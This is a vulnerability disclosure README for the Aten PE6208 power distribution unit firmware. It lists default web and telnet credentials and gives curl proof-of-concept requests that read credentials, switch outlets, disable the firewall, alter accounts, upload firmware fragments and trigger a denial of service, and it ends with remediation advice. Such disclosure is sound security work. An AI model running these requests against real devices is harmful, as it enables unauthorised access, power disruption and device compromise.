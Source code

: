 # Aten PE6208 vulnerabilities

This repo contains a description of the vulnerabilities identified
in the Aten PE6208 PDU firmware. The exploitation methods described were
tested for versions v2.3.228 and v2.4.232 of the PE6208 firmware. According
to Aten, the vulnerabilities are fixed in the v2.4.239 firmware version.

## The vulnerabilities

1. Default credentials (CVE-2023-43844, CVE-2023-43845)
-------------------------------------------------------
### _A user isn't suggested to change default credentials_
Device can be managed via web interface or via telnet. Both methods use
privileged accounts with default credentials:
```
	administrator : password # for web
	teladmin : telpwd        # for telnet
```
The firmware doesn't force to change default credentials. If they're
not changed, attackers can get privileged access.

2. Incorrect Access Control (CVE-2023-43846)
--------------------------------------------
### _Unauthenticated logs access_
Logs on device can be accessed without authentication via GET request:
```
curl -s -i -k 'https://192.168.0.60/Log_information/Systemlog.csv'
```
Logs contain such information as usernames present on the device
and IP addresses of the device users.

3. Incorrect Access Control (CVE-2023-43843)
--------------------------------------------
### _Unprivileged user can other users' credentials_
An attacker provided with a valid unprivileged session ID can read credentials
of all accounts, including privileged ones, via GET request:
```
curl -s -i -k 'https://192.168.0.60/xml/accounts.xml?SID=1234567890abcdef&SIndex=0&UID=8
```
Attackers can use the credentials obtained this way to login as other users on
the device or to perform password spraying attacks on the rest of the
infrastructure.

4. Incorrect Access Control (CVE-2023-43847)
--------------------------------------------
### _Unprivileged user can access outlets management_
An attacker provided with a valid unprivileged session ID can control outlets
via POST requests.
To turn an outlet off:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=0'
```
To turn an outlet on:
```
curl -s -i -k 'https://192.168.0.60/outlet_access/connections.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'outcont401=1'
```

5. Incorrect Access Control (CVE-2023-43848)
--------------------------------------------
### _Unprivileged user can access firewall management_
An attacker provided with a valid unprivileged session ID can control
the device's local firewall rules via POST request:
```
curl -s -i -k 'https://192.168.0.60/device_management/security.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'devsecuip01=0.0.0.0&devsecuip06=0.0.0.0'
```
The rules may be modified or completely disabled, which may allow attackers
to access the device.

6. Incorrect Access Control (CVE-2023-43842)
--------------------------------------------
### _Unprivileged user can alter the device user accounts_
An attacker provided with a valid unprivileged session ID can add, remove
and change existing accounts of unprivileged users on the device.
To set user test's password to "test":
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=test&u203=test&'
```
To disable a user by number:
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=0&'

7. Incorrect Access Control (CVE-2023-43849)
--------------------------------------------
### _Unprivileged user can upload firmware fragments_
New firmware upload process is based on sending payload fragments via POST
requests without any authentication. An attacker can use it to interfere with
a firmware update process like this:
```
curl -s -i -k 'https://192.168.0.60/xml/firmware_upgrade.xml?SID=evwdiub3kaf6pco4&CheckVersion=0&Name=administrator'
curl -s -i -k 'https://192.168.0.60/maintenance/fwupgrade.cgi' -X POST -d '------WebKitFormBoundary1234567890ABCdef\nContent-Disposition: form-data; name="FWfileName"; filename="payload.bin"\nContent-Type: application/octet-stream\n$FRAGMENT
```
Looped requests like this may be used to upload modified firmware containing
malicious code resulting in fully compromised device.
After such a manipulation a legitimate firmware upload may be not possible.

8. Improper Input Validation (CVE-2023-43850)
---------------------------------------------
### _Unprivileged user can cause partial DoS of web interface_
If an attacker provided with a valid unprivileged session ID adds a user with
a name containing opening angle bracket, a partial DoS of web interface
happens. While such a user is present, administrator can't see list of users
or edit accounts. Also logs are not available for viewing while containing
a record with such a name of user:
```
curl -s -i -k 'https://192.168.0.60/user_management/accounts.cgi?SID=1234567890abcdef&SIndex=0&UID=8' -X POST -d 'u303=1&u103=<&u203=test&'
```
## Remediation
Since according to Aten the issues are solved in v.2.4.239 firmware version,
to avoid potential risks a customer should update their device firmware
to this version. The firmware is avalaible at the [official site](https://www.aten.com/global/en/products/power-distribution-&-racks/rack-pdu/pe6208/) of Aten
at the _Support and Downloads_ tab.
